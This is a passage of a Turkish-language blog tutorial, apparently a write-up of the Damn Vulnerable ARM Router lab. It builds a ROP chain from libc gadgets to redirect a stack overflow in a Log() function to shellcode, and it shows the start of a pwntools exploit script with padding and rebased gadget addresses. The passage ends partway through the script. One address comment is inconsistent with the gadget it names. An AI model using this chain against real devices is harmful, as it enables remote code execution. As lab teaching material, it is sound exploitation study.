 <img src="{{site.baseurl}}/pictures/dvar_24.png">

Evet şanslı günümüzdeyiz, 0x00024100 adresindeki instruction bizim için gayet uygun. 
Nihayet **"mov pc, sp"** işlevini dolaylı olarak yerine getirecek gadget'ları belirledik.

**1 - 0x00024100: mov r0, sp; blx r6;**
**2 - 0x00052454: mov r5, r0; cmp r3, #0; mov r4, r1; beq #0x52478; blx r3;**
**3- 0x0004d8d4: mov pc, r5; mov r7, #1; svc #0; mov lr, pc; bx r5;**

Son aşamada belirlediğimiz gadget'ların sırasıyla çalışabilmeleri için return anında atlama yaptıkları adresleri birbirleriyle ilişkilendirmeliyiz. Hali hazırda 3 tane gadget'ımız bulunmakta ve bunlardan ikisinin return yaptıkları adresler r3 ve r6 register'larında bulunuyor. PC register'ına **0x00024100** adresini, r6 register'ına **0x00052454** adresini ve r3 register'ına da **0x0004d8d4** adresini atamalıyız. Uygun bir pop instruction'ı ile bu atamaları yapabiliriz. 

<img src="{{site.baseurl}}/pictures/dvar_25.png">

Buraya kadar shellcode'muzun çalışmasını sağlayacak ROP adımlarını belirledik. 

**1 - 0x0003c8f0: pop {r3, r4, r5, r6, r7, r8, sb, sl, fp, pc};**
**2 - 0x00024100: mov r0, sp; blx r6;**
**3 - 0x00052454: mov r5, r0; cmp r3, #0; mov r4, r1; beq #0x52478; blx r3;**
**4 - 0x0004d8d4: mov pc, r5; mov r7, #1; svc #0; mov lr, pc; bx r5;**
**5 - Shellcode**

Hatırlayacağımız üzere stack overflow zafiyeti program içerisindeki **Log()** fonksiyonunda oluşuyordu ve overwrite olmuş LR register'ına dallanmaya çalışıp crash oluyordu. Bu noktada LR register'ına ilk gadget'ın adresini vereceğiz ve program crash olmayıp bizim belirlediğimiz akışta çalışmaya devam edecek. 

Log Fonksiyonu:
{% highlight assembly %} 
.
.
.
pop {r11,lr};
add sp,sp,#16;
bl lr;"
{% endhighlight %}

Sıra geldi exploit kodu hazırlama aşamasına. Dikkat etmemiz gereken bazı ayrıntılar var. Log fonksiyonu çıkışında stack alanı 16 byte küçültüldüğü için payload'ımıza fazladan 16 karakter girmeliyiz. Ayrıca gadget'larımızın  sahip olduğu adresler sıfırıncı adresten referanslandığı için belirlediğimiz o adresler doğru değildir. Gadget'lar libc.so kütüphanesindedir ve bu kütüphane program hafıza alanı içerisinde 0x40000000 adresinden itibaren yerleştirilmiştir. Dolayısıyla gadget adreslerini exploit koda eklerken bu adresten itibaren offset'lemeliyiz. 

Nihai exploit kod aşağıdaki gibidir.

{% highlight python %}
from pwn import *
import struct

buff = "A"*337
r11 = "AAAA"
lr = 0x4003c8f0 #0x40000000 + 0x0003c8f0
stuff = "A"*16
r3 = 0x4004d8d4 #0x40000000 + 0x0004d8d4
r4 = "BBBB"
r5 = "CCCC"
r6 = 0x40052454 #0x40000000 + 0x00052454
r7 = "DDDD"
r8 = "EEEE"
sb = "FFFF"
sl = "GGGG"
fp = "HHHH"
pc = 0x400240fc #0x40000000 + 0x400240fc 